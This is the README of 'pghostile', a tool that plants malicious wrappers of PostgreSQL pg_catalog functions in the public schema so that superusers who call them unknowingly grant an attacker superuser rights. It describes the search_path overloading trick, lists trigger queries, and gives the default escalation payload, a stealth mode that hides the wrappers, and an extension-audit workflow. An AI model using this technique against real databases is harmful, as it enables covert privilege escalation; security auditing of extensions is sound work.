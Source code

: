 # PGHOSTILE
Pghostile can make PostgreSQL an hostile environment for superusers and a nice playground for attackers.  
Pghostile is an automated tool for overriding "system" functions (the ones from the 'pg_catalog' schema) allowing an attacker to elevate privileges if/when these functions are called by a superuser.  

It can be also used to test the security of the PostgreSQL extension. You can run pghostile to create the "exploit functions" and then run the extension's unit tests and see if you get superuser power after that.

## How it works
In PostgreSQL every function is identified by it's name plus the number/types of arguments (like in Java). If a function is defined to accept a numberic value and you define a function with the same name that accepts an integer, your function will be called if the input parameter is an integer and the original one will be called if the input is a float.  
Considering that an unprivileged user can create functions in the public schema and that the public schema is part of the 'search_path', it's relatively easy to trick a superuser to run code from public instead of pg_catalog.  

In a few words, pghostile searches pg_catalog for functions (and operators) that can be overridden and creates a malicious wrapper of them in the public schema. 

Currently, it can identify ~1000 calls that can lead to privilege escalation. To give an example, the list below contains some of them:  
```SQL
select 1.1 * 1;
select 1 = 1.1;
select 1.1 / 1;
select array [1, 2] = array [1, 2];

select sha256('randstr');
select unnest(array [1, 2]);
select array_replace(array [1, 2], 1, 1);
select date_cmp('2022-07-12', '2022-07-12');
select time_cmp('00:00:00', '00:00:00');
select varcharout('randstr');
select round(1, 1);
select floor(1);
select power(1, 1);
select int4(1);
select div(1, 1);
select format('randstr', 1);
select pg_sleep(1.1);
select inet_out('10.0.0.1');
select hashmacaddr('01:01:01:02:02:02');
select hashinet('10.0.0.1');
select xml_out('<foo />');
select json_out('[true]');
select uuid_out('93967025-8c89-4320-ad51-4ef50694502f');
```

Then, if the superuser runs something like `select sha256('test123')` you will be superuser in no time ;)

## Usage
```
positional arguments:
  db_username           Database username
  db_name               Database name

optional arguments:
  -h, --help            show this help message and exit
  -X, --disable-exploits-creation
                        Do not create exploit functions
  -H DB_HOST, --db-host DB_HOST
                        Database host (default 127.0.0.1)
  -p DB_PORT, --db-port DB_PORT
                        Database port
  -P, --ask-pass        Prompt for database passsword
  -o OUT, --out OUT     Output dir (deafult ./out)
  -T, --skip-tests      Disable test
  -s, --disable-stealth-mode
                        Disable stealth mode
  -S DB_SSL_MODE, --db-ssl-mode DB_SSL_MODE
                        Database ssl mode (default None)
  -x EXPLOIT_PAYLOAD, --exploit-payload EXPLOIT_PAYLOAD
                        The SQL commands
  -t, --track-execution
                        Track the exploit function execution
  -O, --no-overwrite    Stop execution if at least one exploit function already exists
```

With the -X option you can disable the actual exploit creation. It will just run the tests to see which functions can be overridden.  
With the -T option you can disable the tests and just create the exploit functions.  
The -x option allows you to specify what SQL command(s) should be used in your exploit. By default it's ```ALTER USER <db_username> WITH SUPERUSER;```.  
The -s option disables the "stealth mode". In stealth mode the wrapping functions will call the original function from pg_catalog, in this way the superuser won't see any anomaly when calling a wrapped function. There are also less chances to break execution flows that could bring us to other vulnerable points.  
The -t option enables the tracking of the execution of the exploit functions. It means that every successfull call of an exploit function is logged into a table of the current DB (pghostile.triggers). It's useful for extension analisys.  
The -p option forces the DB's password request even if the PGPASSWORD environment variable is set.  

### Example
```
pghostile.py user1 testdb -H 10.0.0.100
```
```
Starting ... 

[ * ] 1272 interesting functions have been identified
[ * ] Detecting operators
[ * ] Testing 1697 functions
[ * ] 907 exploitable functions found
[ * ] 1005 function and parameters combinations run successfully
[ * ] 70 operators call run successfully
[ * ] Creating exploit functions
[ * ] Done!

907 functions have been created
1075 queries can trigger the exploit
The './out' folder contains the output
```

## PG Extension audit
Pghostile can be used to audit the security of PostgreSQL extensions:
1. Run pghostile with the '-t' option to enable execution tracking
```
pghostile.py -t user1 testdb
```
2. Run, as superuser, as many extension's queries/functions as possible
```
psql -U postgres testdb < extension_queries.sql
```
3. Check if you are superuser
```sql
SELECT rolsuper FROM pg_roles where rolname='user1'
```
4. If you are superuser, all the functions that triggered the exploit are listed in:
```sql
select * from pghostile.triggers
```

## Trademarks
The terms Postgres and PostgreSQL are registered trademarks of the PostgreSQL Community Association of Canada.